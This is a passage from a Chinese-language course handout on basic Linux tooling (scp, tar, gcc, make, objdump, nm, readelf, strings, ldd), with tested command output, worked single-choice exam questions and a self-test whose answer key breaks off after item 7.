4.3 scp：在本机与远程主机之间复制文件#
scp 用 ssh 的连接复制文件，写法与 cp 相同：scp 源 目标。远程的位置写成 用户名@主机:路径，冒号是区分本地和远程的标志，冒号后面的路径相对于远程用户的主目录。所以“从本机上传”是 scp 本地文件 用户@主机:远程路径，“下载到本机”是 scp 用户@主机:远程文件 本地路径，源在前、目标在后的顺序始终不变；复制整个目录加 -r。
scp 指定端口用的是大写的 -P，这与 ssh 的小写 -p 不同。scp 的小写 -p 有别的含义：保留文件的修改时间和权限。写错之后会发生什么，验证环境中的结果说得很清楚：
$ scp -P 2222 data.tar.gz ubuntu@localhost:~/backup/
$ ls ~/backup
data.tar.gz
$ scp -p 2222 data.tar.gz ubuntu@localhost:~/backup/
scp: stat local "2222": No such file or directory
$ scp -P 2222 ubuntu@localhost:~/backup/data.tar.gz ./copy.tar.gz
$ ls
copy.tar.gz
data.tar.gz写成小写 -p 时，scp 把 -p 当作“保留时间”的选项，2222 就成了第一个要复制的本地文件名，于是报告找不到本地文件 2222。上面第三条命令把远程文件下载回本机，源与目标的位置和上传时相反。
表 10 ssh 与 scp 的常用写法
| 命令 | 作用 |
|---|---|
ssh user@host | 登录 host 的默认端口 22 |
ssh -p 2222 user@host | 指定端口（小写 p） |
ssh -i ~/.ssh/key user@host | 指定私钥文件 |
ssh-keygen -t ed25519 | 生成 ~/.ssh/id_ed25519（私钥）与 id_ed25519.pub（公钥） |
scp file user@host:dir/ | 上传：本地 file 复制到远程 dir |
scp user@host:dir/file . | 下载：远程文件复制到本机当前目录 |
scp -P 2222 file user@host: | 指定端口（大写 P）；冒号后为空表示远程主目录 |
scp -r dir user@host: | 复制整个目录 |
第五部分 打包与解压#
Lab 的 handout 都是 tar 包（如 datalab-handout.tar），提交时也常常要打包。tar 把多个文件和目录连同它们的权限、修改时间、目录结构一起装进一个文件，它本身不压缩，加上 z 选项才用 gzip 压缩，习惯上压缩后的文件名以 .tar.gz 或 .tgz 结尾。tar 的选项通常写成一串字母：
表 11 tar 的常用选项
| 选项 | 作用 |
|---|---|
c | 创建（create）一个新的包 |
x | 解开（extract）一个包 |
t | 列出（list）包中的文件，不解开 |
f | 后面紧跟包的文件名，几乎每次都要写 |
v | 显示处理的每个文件（verbose） |
z | 用 gzip 压缩或解压 |
-C dir | 解开到 dir 目录中 |
最常用的组合只有三个，tar -cvf 包.tar 目录 打包，tar -xvf 包.tar 解开，tar -tvf 包.tar 查看内容，需要压缩时在中间加 z。f 后面必须紧跟文件名，所以 f 要放在一串选项的最后：tar -cvf x.tar 是对的，tar -cfv x.tar 会把 v 当作包的文件名。验证环境中打包一个含有可执行脚本的目录，再解开：
$ tar -cvf pkg.tar pkg
pkg/
pkg/run.sh
pkg/Readme
pkg/readme
$ tar -tvf pkg.tar
drwxr-xr-x ubuntu/ubuntu 0 2026-11-13 15:45 pkg/
-rwxr-xr-x ubuntu/ubuntu 20 2026-11-13 15:45 pkg/run.sh
-rw-r--r-- ubuntu/ubuntu 2 2026-11-13 15:45 pkg/Readme
-rw-r--r-- ubuntu/ubuntu 2 2026-11-13 15:45 pkg/readme
$ mkdir out && tar -xvf pkg.tar -C out && ls -l out/pkg
-rw-r--r-- 1 ubuntu ubuntu 2 Nov 13 15:45 Readme
-rw-r--r-- 1 ubuntu ubuntu 2 Nov 13 15:45 readme
-rwxr-xr-x 1 ubuntu ubuntu 20 Nov 13 15:45 run.shtar -tvf 的输出与 ls -l 相似，可以看到包中记录的权限：run.sh 是 rwxr-xr-x。在 Linux 中解开之后，run.sh 仍然是可执行的。
上面的包里有两个只差大小写的文件 Readme 和 readme。Linux 的文件系统区分大小写，两者可以同时存在；Windows 的 NTFS（以及 macOS 默认的文件系统）不区分大小写，解开时后一个会覆盖前一个，或者解压工具报错。另一个问题是权限位：Windows 的文件系统没有 Unix 的 rwx 权限，在 Windows 上解压再复制到 Linux，run.sh 这样的脚本和 handout 中的可执行程序会丢掉 x 权限，运行时报“Permission denied”。所以 handout 应当在 Linux 中用 tar 解开，各个 Lab 的实验说明也都这样要求。
常见问题：handout 里的程序运行时报 Permission denied，怎么办？
多半是文件丢了执行权限：在 Windows 上解压过，或者经过某些不保留权限的方式传输。先用 ls -l 确认，第四个字符不是 x 就说明没有执行权限，用 chmod +x 文件名 加上即可（第 2.2 节）。如果文件有 x 权限却仍然报 Permission denied，检查它所在的目录是否允许执行（例如某些挂载的共享目录禁止执行程序），把 handout 移到自己的主目录中再试。
第六部分 编译与 make#
6.1 gcc 的常用选项#
gcc 是编译驱动程序：它依次调用预处理器、编译器、汇编器和链接器（第 15 讲 15.1 节），选项决定在哪一步停下、输出放在哪里、怎样优化。验证环境中用一个小程序 hello.c（定义 square，打印 square(7)）逐一试验：
#include <stdio.h>
int square(int x) { return x * x; }
int main(void) { printf("%d\n", square(7)); return 0; }$ gcc hello.c && ls && ./a.out
a.out
hello.c
49
$ gcc -o hello hello.c && ./hello
49
$ gcc -c hello.c && file hello.o
hello.o: ELF 64-bit LSB relocatable, ARM aarch64, version 1 (SYSV), not stripped
$ gcc -S hello.c && head -3 hello.s
.arch armv8-a
.file "hello.c"
.text不加 -o 时，可执行文件默认叫 a.out；-o 文件名（小写 o，output）指定输出文件的名字。-c 只编译和汇编、不链接，得到可重定位目标文件 hello.o；-S 只编译到汇编代码 hello.s；-E 只做预处理。大写的 -O 是另一回事，它指定优化级别：-O0（默认，不优化）、-O1、-O2、-O3，以及第 4 讲以来常用的 -Og（便于调试的优化）。-g 在输出中加入调试信息，gdb 才能显示源代码的行号和变量名。-Wall 打开大多数警告，下面的 w.c 使用了未初始化的变量，不加 -Wall 时 gcc 一声不响，加上之后才报告：
$ gcc -c w.c
$ gcc -Wall -c w.c
w.c: In function 'f':
w.c:1:28: warning: 'y' is used uninitialized [-Wuninitialized]
1 | int f(int x){int y; return y;}
| ^表 12 gcc 的常用选项
| 选项 | 作用 |
|---|---|
-o 文件 | 指定输出文件名（小写 o） |
-O0 至 -O3、-Og | 优化级别（大写 O） |
-c | 只编译和汇编，生成 .o，不链接 |
-S | 只编译，生成 .s 汇编代码 |
-E | 只做预处理 |
-g | 加入调试信息，供 gdb 使用 |
-Wall | 打开常用的警告 |
-I 目录、-L 目录、-l库名 | 头文件搜索目录、库搜索目录、链接的库（第 15 讲） |
6.2 make 与 Makefile 的规则#
Lab 中的程序都用 make 构建。make 读取当前目录下的 Makefile，其中每条规则的形式是：
目标: 依赖1 依赖2 ...
<Tab>命令
<Tab>命令这条规则的意思是，要得到目标，先确保各个依赖是最新的；如果目标不存在，或者某个依赖比目标新（修改时间更晚），就执行下面的命令。命令行必须以 Tab 字符开头，用空格缩进会报“missing separator”，这是新手最常遇到的错误。验证环境中的 Makefile 由 main.c 和 add.c 生成 prog：
CC = gcc
CFLAGS = -O1
prog: main.o add.o
$(CC) -o $@ $^
%.o: %.c
$(CC) $(CFLAGS) -c $< -o $@
clean:
rm -f prog *.o
.PHONY: clean前两行定义变量，用 $(CC) 引用。规则中有三个常用的自动变量：$@ 是目标，$< 是第一个依赖，$^ 是全部依赖。第三条规则 %.o: %.c 是模式规则：% 匹配任意的非空字符串，它表示“任何一个 .o 文件都依赖于同名的 .c 文件，用下面的命令生成”。make 需要 main.o 时，用 main 去匹配 %，于是依赖是 main.c，命令展开为 gcc -O1 -c main.c -o main.o。注意模式规则只描述“怎样由 x.c 得到 x.o”，并不要求目录中真的有一个名叫 %.c 的文件，也不意味着一个 .c 改了所有 .o 都要重编。
6.3 make 的执行过程#
不带参数运行 make 时，它构建 Makefile 中的第一个目标（模式规则和以点开头的目标除外），这里是 prog；make 目标 构建指定的目标。make 并不按书写的顺序执行所有规则，而是从要构建的目标出发，沿着依赖关系向下检查，只执行需要的命令。这里的两个源文件都只有几行，main.c 调用 add.c 中的 add：
/* add.c */
int add(int a, int b) { return a + b; }
/* main.c */
#include <stdio.h>
int add(int, int);
int main(void) { printf("%d\n", add(2, 3)); return 0; }运行过程如下：
$ make
gcc -O1 -c main.c -o main.o
gcc -O1 -c add.c -o add.o
gcc -o prog main.o add.o
$ make
make: 'prog' is up to date.
$ touch add.c; make
gcc -O1 -c add.c -o add.o
gcc -o prog main.o add.o
$ make add.o
gcc -O1 -c add.c -o add.o
$ make sub.o
make: *** No rule to make target 'sub.o'. Stop.第二次 make 什么也不做，因为 prog 比它的依赖都新。touch 更新了 add.c 的修改时间之后，只有 add.o 和 prog 被重新生成，main.o 保持不变，这就是增量编译。最后一条中 sub.c 不存在，模式规则无法生成 sub.o，make 报告没有规则。
“默认执行第一个规则”可以用另一个 Makefile 直接验证：把 clean 写在最前面，不带参数运行 make，执行的就是清理。make -n 只打印将要执行的命令而不执行，修改 Makefile 之后先用它检查一遍很稳妥。
$ cat Makefile2
clean:
rm -f *.o
prog: main.o add.o
gcc -o prog main.o add.o
$ make -f Makefile2
rm -f *.o
$ make -n clean
rm -f prog *.oclean 这样的目标不生成名为 clean 的文件，称为伪目标。如果目录中恰好有一个叫 clean 的文件，而 Makefile 没有声明 .PHONY，make 会认为目标 clean 已经存在、而且没有依赖，于是什么也不做：
$ touch clean
$ make -f Makefile3 clean
make: 'clean' is up to date.
$ make clean
rm -f prog *.oMakefile3 只有一条 clean 规则，没有 .PHONY 声明，清理没有执行；前面的 Makefile 声明了 .PHONY: clean，即使存在文件 clean，命令也照常执行。所以 clean、all、test 这类目标都应当声明为伪目标。
★ 要点：make 的四条规则
第一，不指定目标时，make 构建 Makefile 中的第一个目标；第二，make 按依赖关系决定执行哪些命令，只重建比依赖旧或者不存在的目标，而不是按书写顺序执行全部规则；第三，%.o: %.c 这样的模式规则表示“每个 .o 依赖同名的 .c”，% 在使用时才与具体的文件名匹配；第四，命令必须以 Tab 开头，伪目标要用 .PHONY 声明。
第七部分 目标文件与二进制工具#
7.1 汇编、目标文件与反汇编#
汇编代码（.s）可以直接交给 gcc：gcc -c s.s 调用汇编器，生成可重定位目标文件 s.o，不需要先改写成 C。objdump -d s.o 再把其中的机器码反汇编出来。验证环境中用 x86-64 的交叉工具做这个实验（在 x86-64 的课程容器中直接写 gcc 和 objdump）：
$ cat s.s
.text
.globl f
f:
movq %rdi, %rax
addq $8, %rax
ret
$ x86_64-linux-gnu-gcc -c s.s -o s.o
$ x86_64-linux-gnu-objdump -d s.o
0000000000000000 <f>:
0: 48 89 f8 mov %rdi,%rax
3: 48 83 c0 08 add $0x8,%rax
7: c3 ret反汇编的结果与源汇编一条对一条地对应：每条汇编指令对应一段确定的机器码，反汇编器把这些字节翻译回来。看起来的差别只是写法：objdump 省略了 q 这样的后缀（操作数是 64 位寄存器时长度已经确定），立即数写成十六进制的 $0x8。每一行依次是指令在节中的偏移、机器码的字节、反汇编出的指令。用 as s.s -o s.o 直接调用汇编器，结果相同。
反过来，C 程序经过编译、汇编得到的 .o，反汇编出的指令与 gcc -S 生成的 .s 文件也一一对应（第 4 讲、第 15 讲）。
7.2 binutils 中的工具#
GNU binutils 是一组处理目标文件的工具，Lab 中最常用的是下面几个：
表 13 常用的二进制工具
| 命令 | 作用 |
|---|---|
objdump -d | 反汇编代码段（Bomb Lab、Attack Lab 的主要工具） |
objdump -t | 打印符号表 |
objdump -s -j .rodata | 以十六进制和 ASCII 打印只读数据节 |
readelf -h、-S、-s | 打印 ELF 头、节头表、符号表（第 15 讲） |
nm | 列出符号：T 是全局函数，t 是局部函数，D/d 是数据，U 是未定义 |
strings | 打印文件中长度不少于 4 的可打印字符串 |
as、ld、ar | 汇编器、链接器、静态库打包工具 |
验证环境中编译一个调用 puts 的程序 m，看看这几个工具的输出（节选）：
#include <stdio.h>
int main(void) { puts("hi"); puts("hello, world"); return 0; }用 gcc -o m m.c 编译之后：
$ nm m | grep -i ' t '
0000000000000640 T _start
0000000000000758 T main
0000000000000700 t __do_global_dtors_aux
...
$ readelf -h m | sed -n '2,8p'
Magic: 7f 45 4c 46 02 01 01 00 00 00 00 00 00 00 00 00
Class: ELF64
Data: 2's complement, little endian
...
Type: DYN (Position-Independent Executable file)
$ strings m | grep -E '^hi$|hello'
hello, world
$ strings -n 2 m | grep -x hi
him 中有两个字符串常量 "hi" 和 "hello, world"，strings 默认只打印长度至少为 4 的串，所以只找到了后者，加 -n 2 才能看到 "hi"。在 Bomb Lab 中用 strings 找常量串时，这一点值得记住。
ldd 列出一个动态链接的可执行文件运行时需要哪些共享库，以及它们会从哪里加载：
$ ldd ./m
linux-vdso.so.1 (0x0000feaca0098000)
libc.so.6 => /lib/aarch64-linux-gnu/libc.so.6 (0x0000feac9fe60000)
/lib/ld-linux-aarch64.so.1 (0x0000feaca0050000)
$ gcc -static -o ms m.c; ldd ./ms
not a dynamic executablem 需要 C 库 libc.so.6，以及动态链接器 ld-linux 本身（第 15 讲 15.16–15.19 节）；linux-vdso 是内核映射进每个进程的一小段共享代码。静态链接的 ms 不依赖任何共享库，ldd 报告它不是动态可执行文件。readelf 和 objdump 也能看到依赖的库：readelf -d m 中类型为 NEEDED 的项就是它们。
⚠ ldd 不属于 binutils
ldd 常常和 objdump、nm 放在一起介绍，但它并不是 binutils 的成员，而是 C 库（glibc）附带的一个脚本：验证环境中 dpkg -S /usr/bin/ldd 报告它属于软件包 libc-bin，而 objdump 属于 binutils。测验题若说“binutils 中哪个工具查看共享库依赖”，按题意应选 ldd，但要知道这个说法并不严格；在 binutils 内部，与之相近的是 readelf -d 或 objdump -p。
第八部分 测验题型与单选例题#
学期末 Lab 测验中的 L0 组共 10 道单选题、20 分。2025 年的 10 道题依次考了：ls 显示隐藏文件的选项；cd 表示“上一次所在目录”的参数；chmod 755 之后的权限；对 tar、gcc 的 -o 与 -O、rm 与 rmdir、grep -i 几种说法的辨析；ssh-keygen 生成的公钥和私钥各放在哪里；指定非默认端口的 scp 命令；Makefile 中 %.o: %.c 的含义；不指定目标时 make 执行哪条规则；汇编与反汇编的关系；查看共享库依赖的工具。这些题目的共同特点是，每个选项都是一个看上去合理的写法或说法，错误的选项往往只差一个字母的大小写、参数的顺序，或者把两个相近的命令混在一起。
做这类题最可靠的办法是亲手运行过每一条命令，所以本讲义每一节都给出了实测的输出。下面的例题都是新编的，四个选项的对错都在验证环境中实测过（sim/run_all.sh、sim/exam_check.sh，输出见 sim/data/）。
8.1 文件、目录与权限#
例 1（单选）想按修改时间排序列出文件的详细信息，并让最新修改的文件排在最后，应当使用：
A. ls -lt B. ls -ltr C. ls -la D. ls -lh
答案
B
-t 按修改时间排序，默认最新的在前，-r 把顺序反过来，所以 ls -ltr 让最新的文件排在最后，这在查看刚刚生成的文件时很方便（第 1.2 节，实测 t1、t2、t3 依次列出）。选项 A 也按时间排序，但最新的在前。选项 C 显示包括隐藏文件在内的所有文件，按文件名排序。选项 D 以易读的单位显示大小，同样按文件名排序。
例 2（单选）关于 cd 命令，说法正确的一项是：
A. cd .. 回到自己的主目录
B. cd - 中的 - 是一个选项，表示“不跟随符号链接”
C. cd ~ 回到上一次所在的目录
D. cd - 回到上一次所在的目录，并打印出这个目录
答案
D
cd - 回到 shell 记录的上一个目录（环境变量 OLDPWD），并把它打印出来（第 1.3 节）。选项 A 说的是 cd ~ 或不带参数的 cd 的作用，cd .. 回到上一级目录。选项 B 不对，这里的 - 是一个特殊的参数，不是选项。选项 C 混淆了 ~ 和 -：~ 表示主目录。
例 3（单选）执行 chmod 750 run.sh 之后，ls -l 显示的权限是：
A. -rwxr-x--- B. -rwxr-xr-x C. -rw-r-x--- D. -rwxrwx---
答案
A
每一位数字是 r = 4、w = 2、x = 1 之和：7 = rwx，5 = r-x，0 = ---，依次对应所有者、组和其他人，所以是 rwxr-x---（实测）。选项 B 是 755，其他人还有读和执行的权限。选项 C 是 650，所有者没有执行权限。选项 D 是 770，组也有写权限。
例 4（单选）目录 d 的权限是 rw-r--r--（644），它的所有者执行 cd d，结果是：
A. 成功，因为所有者对 d 有读权限
B. 成功，因为所有者可以进入自己的任何目录
C. 失败，因为没有对 d 的执行（x）权限
D. 失败，因为没有对 d 的写（w）权限
答案
C
对目录来说，x 权限决定能否进入它、访问其中的文件，r 只决定能否列出文件名（第 2.1 节）。644 的目录没有 x，实测 cd d 报“Permission denied”。选项 A 混淆了 r 与 x 对目录的含义；选项 B 不对，所有者同样受权限位的约束（只有 root 可以绕过）；选项 D 把原因说错了，这个所有者有 w 权限，问题出在 x 上。
例 5（单选）关于删除文件和目录，说法错误的一项是：
A. rmdir 只能删除空目录，目录非空时报错
B. rm -r 可以删除非空的目录及其中的全部内容
C. 不带选项的 rm 遇到目录时报错，不会删除它
D. 删除一个空目录只能用 rmdir，rm 的任何选项都做不到
答案
D
GNU 的 rm 有一个 -d 选项，专门用来删除空目录，rm -r 当然也能删除空目录，所以“只能用 rmdir”是错的（第 1.4 节，实测 rm -d em 成功）。选项 A、B、C 都是实测的行为：rmdir 对非空目录报“Directory not empty”，不带选项的 rm 对目录报“Is a directory”。
8.2 文本处理与重定向#
例 6（单选）要找出 log.txt 中所有不包含 error 的行，并且 Error、ERROR 也算作包含，应当使用：
A. grep -vi error log.txt
B. grep -i error log.txt
C. grep -c error log.txt
D. grep -ni error log.txt
答案
A
-v 输出不匹配的行，-i 忽略大小写，两者合用，ERROR one 和 error two 都被排除，只剩下 ok 和 warn（实测）。选项 B 输出的恰好是包含 error 的行。选项 C 只输出区分大小写时匹配的行数。选项 D 输出包含 error 的行并加上行号。
例 7（单选）命令 cmd > out.txt 2>&1 的效果是：
A. 只有标准错误写入 out.txt，标准输出仍显示在终端
B. 标准输出写入 out.txt，标准错误仍显示在终端
C. 标准输出和标准错误都写入 out.txt
D. 标准错误写入一个名为 1 的文件
答案
C
> out.txt 先把标准输出连到 out.txt，2>&1 再让标准错误指向标准输出当时所指的地方，也就是 out.txt，两者都进入文件（第 3.2 节，实测正常输出和错误信息都在 all.txt 中）。选项 B 是只写 > out.txt，或者把顺序写成 2>&1 > out.txt 时的效果。选项 A 对应 2> out.txt。选项 D 是把 & 漏掉、写成 2>1 时的结果。
8.3 远程登录与文件传输#
例 8（单选）在本机用 ssh-keygen 生成一对密钥后，为了用密钥登录服务器，应当：
A. 把私钥复制到服务器上，公钥留在本机
B. 把公钥的内容追加到服务器上自己账户的 ~/.ssh/authorized_keys 中，私钥留在本机
C. 把公钥和私钥都复制到服务器上
D. 两个文件都只留在本机，ssh 登录时会自动把它们发给服务器
答案
B
公钥可以公开，交给服务器用来验证；私钥是身份的证明，只能留在本机，登录时用它回答服务器的验证，私钥本身不会离开本机（第 4.2 节）。选项 A 把两者的位置弄反了，交出私钥等于交出身份。选项 C 同样泄露了私钥。选项 D 不对，服务器事先必须有公钥，ssh 也从不发送私钥。
例 9（单选）服务器 192.168.0.7 的 SSH 服务端口是 2200。要把服务器上用户 ubuntu 主目录下的 res.txt 下载到本机的当前目录，正确的命令是：
A. scp -P 2200 ubuntu@192.168.0.7:res.txt .
B. scp -p 2200 ubuntu@192.168.0.7:res.txt .
C. scp -P 2200 . ubuntu@192.168.0.7:res.txt
D. scp ubuntu@192.168.0.7:2200:res.txt .
答案
A
scp 用大写的 -P 指定端口；源在前、目标在后，下载时源是远程文件 ubuntu@192.168.0.7:res.txt，冒号后的相对路径从远程主目录算起，目标是本机的当前目录 .（第 4.3 节）。选项 B 用了小写的 -p，它表示保留文件时间，2200 被当成要复制的本地文件，实测报告“stat local "2200"”一类的错误。选项 C 把源和目标的顺序写反了。选项 D 把端口写进了路径，scp 会把 2200:res.txt 当成远程文件名。
8.4 打包与构建#
例 10（单选）想查看 handout.tar 中包含哪些文件，但不把它解开，应当使用：
A. tar -xvf handout.tar
B. tar -cvf handout.tar
C. tar -cfv handout.tar
D. tar -tvf handout.tar
答案
D
t 列出包的内容，v 显示详细信息，f 后面紧跟包的文件名（第五部分）。选项 A 会把包解开。选项 B 是创建新包；这里没有给出要打包的文件，GNU tar 报告“Cowardly refusing to create an empty archive”后退出（实测原来的包没有被改动），但只要后面带上文件名，它就会用新内容覆盖原来的 handout.tar。选项 C 的 f 后面紧跟的是 v，tar 把 v 当作包的文件名，实测会生成一个名叫 v 的包。
例 11（单选）某个 Makefile 中的规则依次是 test（依赖 prog，命令是运行 ./prog）、prog（依赖 main.o）、模式规则 %.o: %.c 和 clean。在这个目录中不带参数运行 make，会：
A. 按书写的顺序执行全部四条规则
B. 只执行 clean，因为它不依赖任何文件
C. 构建 test：先由 main.c 生成 main.o、再链接出 prog，最后运行 ./prog
D. 只构建 prog，因为 test 不是一个文件
答案
C
不指定目标时，make 构建第一个目标 test；它依赖 prog，prog 又依赖 main.o，模式规则说明 main.o 由 main.c 生成，于是依次执行编译、链接和运行三条命令（第 6.3 节，实测输出“test passed”）。clean 不在这条依赖链上，不会执行，所以选项 A、B 都不对。选项 D 不对：test 不对应文件，make 每次都会执行它的命令；更严谨的写法是把 test 声明为 .PHONY。
例 12（单选）Makefile 中的模式规则 %.o: %.c 表示：
A. 任何一个 .c 文件修改之后，所有的 .o 文件都要重新编译
B. 每个 .o 文件依赖于同名的 .c 文件，用这条规则的命令生成
C. 当前目录中必须有一个名叫 %.c 的文件，否则 make 报错
D. 只对名叫 %.o 的文件起作用
答案
B
8.5 编译与二进制工具#
例 13（单选）关于汇编与反汇编，说法正确的一项是：
A. 可以用 gcc -c 把 .s 汇编文件直接生成目标文件，再用 objdump -d 反汇编，反汇编出的指令与源汇编一一对应
B. 必须先把汇编代码改写成 C，才能用 gcc 编译
C. objdump 可以直接读入 .s 文本文件，生成指令的机器码
D. 反汇编只保证与原程序功能相同，指令的顺序和种类可以不同
答案
A
gcc 遇到 .s 文件时直接调用汇编器，gcc -c s.s 得到 s.o；objdump -d 把机器码翻译回指令，每条汇编指令对应一段确定的字节，反汇编的结果与源汇编一条对一条（第 7.1 节实测，只有后缀、立即数的进制等写法不同）。选项 B 不对，gcc 可以直接处理汇编文件。选项 C 不对，objdump 处理的是目标文件和可执行文件，把汇编变成机器码是汇编器的工作。选项 D 混淆了反汇编和反编译：反编译成 C 才只能保证功能相同。
例 14（单选）关于 ldd 和 strings，说法正确的一项是：
A. ldd 和 objdump 一样，属于 GNU binutils
B. strings 默认打印文件中所有长度的可打印字符串，包括单个字符
C. 对静态链接的程序，ldd 会列出 libc.so.6
D. ldd 列出动态链接的程序运行时需要的共享库；它是 C 库 glibc 附带的工具
答案
D
ldd 列出程序依赖的共享库和加载的位置；验证环境中 dpkg -S 报告它属于 libc-bin，即 glibc，而不属于 binutils（第 7.2 节），所以选项 A 不对。选项 B 不对，strings 默认只打印长度不少于 4 的串，实测 "hi" 要加 -n 2 才能看到。选项 C 不对，静态链接的程序不依赖共享库，实测 ldd 报告“not a dynamic executable”。
第九部分 速查与自测#
9.1 一页纸速查#
表 14 L0 常用命令速查
| 命令 | 要点 |
|---|---|
ls -a / -A / -l / -h / -t / -r | 全部（含 . 与 ..）/ 全部但不含 . 与 .. / 长格式 / 易读大小 / 按时间（新的在前）/ 反序 |
cd .. / cd ~ / cd - | 上一级 / 主目录 / 上一次所在的目录（并打印它） |
mkdir -p、rm -r、rm -d、rmdir、cp -r | 建多级目录；删非空目录；删空目录；删空目录；复制目录 |
chmod 755 / 644 / 600 / +x | rwxr-xr-x / rw-r--r-- / rw------- / 加执行权限；r = 4、w = 2、x = 1 |
chmod u+x / go-r / a=r / o= | 所有者加 x / 组和其他人去掉 r / 三组都设为只读 / 其他人清空；三位数字依次是 u、g、o，a 表示三组全部 |
| 目录的权限 | r 列出文件名，w 增删文件，x 进入目录；删除文件看所在目录的 w |
grep -i / -n / -v / -c / -r / -w | 忽略大小写 / 行号 / 不匹配的行 / 行数 / 递归 / 整词 |
>、>>、2>、> f 2>&1、<、| | 覆盖、追加、标准错误、两者都进 f（顺序不能反）、输入、管道 |
ssh -p 端口 user@host | 小写 p 指定端口；默认 22 |
ssh-keygen -t ed25519 | 生成 id_ed25519（私钥，600，留本机）和 id_ed25519.pub（公钥，放服务器 authorized_keys） |
scp -P 端口 源 目标 | 大写 P 指定端口；远程写成 user@host:路径；源在前、目标在后；目录加 -r；小写 -p 是保留时间 |
tar -cvf / -xvf / -tvf，加 z | 打包 / 解开 / 查看；gzip 压缩；f 后紧跟包名；在 Linux 中解压以保留权限和大小写 |
gcc -o / -O2 / -c / -S / -E / -g / -Wall | 输出名 / 优化 / 只到 .o / 只到 .s / 只预处理 / 调试信息 / 警告 |
| make | 不带参数构建第一个目标；按依赖与时间戳只做需要的事；命令以 Tab 开头；%.o: %.c 模式规则；$@ $< $^；.PHONY；make -n |
objdump -d / -t / -s -j .rodata | 反汇编 / 符号表 / 只读数据 |
nm、readelf -h -S -d、strings | 符号（T t D d U）；ELF 头、节、动态段；可打印串（默认长度 ≥ 4） |
ldd | 动态库依赖；属于 glibc，不属于 binutils；静态程序报“not a dynamic executable” |
9.2 易错点#
第一，ls -a 才显示隐藏文件，-l 是长格式，两者常被混淆（第 1.2 节）。第二，cd - 是上一次所在的目录，cd ~ 是主目录，cd .. 是上一级（第 1.3 节）。第三，目录要有 x 才能进入，删除文件看的是目录的 w（第 2.1 节）。第四，2>&1 要写在 > file 之后（第 3.2 节）。第五，私钥留在本机，公钥放到服务器；私钥的权限必须是 600（第 4.2 节）。第六，ssh 用小写 -p 指定端口，scp 用大写 -P，scp 的小写 -p 是保留时间（第 4.3 节）。第七，tar 的 f 后面紧跟包名；handout 要在 Linux 中解开（第五部分）。第八，gcc 的小写 -o 是输出文件名，大写 -O 是优化级别（第 6.1 节）。第九，make 不带参数只构建第一个目标，不是执行全部规则；Makefile 的命令必须以 Tab 开头（第 6.3 节）。第十，ldd 不属于 binutils；strings 默认不显示短于 4 个字符的串（第七部分）。
9.3 自测题#
以下都是单选题，答案和逐项分析在后面。
1．想列出包括隐藏文件在内的所有文件，但不要显示 . 和 .. 两项，应当使用：
A. ls -a B. ls -l C. ls -A D. ls -R
2．执行 chmod 640 data.txt 之后，ls -l 显示的权限是：
A. -rw-r----- B. -rw-r--r-- C. -rwxr----- D. -rw-------
3．文件 f 的权限是 r--r--r--（444），它所在的目录权限是 rwxr-xr-x，两者的所有者都是自己。执行 rm -f f，结果是：
A. 失败，因为 f 是只读的
B. 失败，只有 root 才能删除只读文件
C. 只清空 f 的内容，文件本身保留
D. 成功，因为能否删除取决于所在目录的写权限
4．当前目录下有一个有执行权限的程序 prog，直接输入 prog 却报 command not found，原因是：
A. prog 没有执行权限
B. shell 只在 PATH 列出的目录中查找命令，当前目录不在 PATH 中，应当写 ./prog
C. 可执行文件的名字必须以 .sh 结尾
D. 运行程序需要 sudo
5．从别处复制来的私钥文件权限是 rw-r--r--（644），用 ssh -i 指定它登录时：
A. 正常登录，权限不影响 ssh
B. ssh 会自动把它的权限改成 600 再使用
C. ssh 警告 UNPROTECTED PRIVATE KEY FILE，拒绝使用这把私钥
D. 服务器拒绝连接，但私钥本身没有问题
6．要把本机的目录 lab 整个上传到服务器上 ubuntu 用户的主目录，服务器使用默认端口，正确的命令是：
A. scp lab ubuntu@host:
B. scp -p lab ubuntu@host:
C. scp ubuntu@host: lab
D. scp -r lab ubuntu@host:
7．Makefile 中有一条 clean 规则，但没有 .PHONY 声明。当前目录中恰好有一个名为 clean 的文件，执行 make clean 时：
A. make 报告 'clean' is up to date，不执行清理命令
B. 照常执行清理命令
C. 报错 No rule to make target 'clean'
D. 删除名为 clean 的那个文件
8．命令 gcc -O2 -o prog prog.c 中的两个选项，含义分别是：
A. 都表示输出文件，后一个覆盖前一个
B. -O2 指定优化级别，-o prog 指定输出文件名为 prog
C. -O2 表示把输出写到 2 号文件描述符
D. -O2 指定输出文件名为 2，-o 打开优化
9．nm 的输出中，符号前的字母 U 表示：
A. 局部（static）函数
B. 已初始化的全局变量
C. 未定义的符号，要由别的模块或库提供
D. 未初始化的全局变量
自测题答案#
1．C。-A（almost all）显示所有文件，只是不列出 . 和 ..（第 1.2 节实测）。选项 A 会连 . 和 .. 一起显示。选项 B 是长格式，不显示隐藏文件。选项 D 递归列出子目录，同样不显示隐藏文件。
2．A。6 = rw-，4 = r--，0 = ---，所以是 rw-r-----（实测）。选项 B 是 644，选项 C 是 740，选项 D 是 600。
3．D。删除一个文件，修改的是它所在目录的内容（去掉一个目录项），所以看的是目录的 w 权限，而不是文件本身的权限。目录是 rwx，所以 rm -f 成功（实测）；在终端中不带 -f 时，rm 会先询问“remove write-protected regular empty file 'f'?”，回答 n 就不删（标准输入不是终端时它不询问，直接删除，这两种情况都已实测）。选项 A、B 都把文件的权限当成了决定因素；选项 C 不是 rm 的行为。
4．B。shell 只在环境变量 PATH 列出的目录中查找命令，验证环境的 PATH 是 /usr/local/sbin、/usr/local/bin、/usr/sbin、/usr/bin、/sbin、/bin，不包含当前目录，所以要用 ./prog 指明路径（实测 prog 报 command not found，./prog 正常运行）。选项 A 与题目条件矛盾，没有执行权限时报的是 Permission denied。选项 C、D 都不对，Linux 不靠扩展名判断能否执行。
5．C。ssh 检查私钥文件的权限，组或其他人可读时拒绝使用，并显示 UNPROTECTED PRIVATE KEY FILE（实测）。改正的方法是 chmod 600。选项 A、B 都不对，ssh 不会自动修改权限。选项 D 把问题归到了服务器，实际上是本机的 ssh 客户端拒绝了私钥。
6．D。复制目录要加 -r，冒号后为空表示远程用户的主目录（实测）。选项 A 不加 -r，实测报“local "lab" is not a regular file”。选项 B 的 -p 是保留时间，同样不能复制目录。选项 C 把源和目标写反了，它试图把远程的主目录复制到本机。
7．A。没有 .PHONY 时，make 把 clean 当作一个文件目标：它已经存在，又没有依赖，所以被认为是最新的，命令不执行（第 6.3 节实测）。声明 .PHONY: clean 之后才会照常执行，所以选项 B 不对。选项 C、D 都不是 make 的行为。
